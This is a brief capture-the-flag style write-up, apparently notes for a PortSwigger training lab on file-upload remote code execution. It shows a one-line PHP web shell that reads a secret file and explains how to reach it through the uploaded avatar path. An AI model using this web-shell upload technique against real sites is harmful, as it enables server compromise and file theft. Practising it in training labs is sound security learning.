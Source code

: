 https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload

nano file.php
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
load file.php in the browser

 In my account page the img tag has a src attribute to `<img src="/files/avatars/file.php" class="avatar">`

get `/files/avatars/file.php`
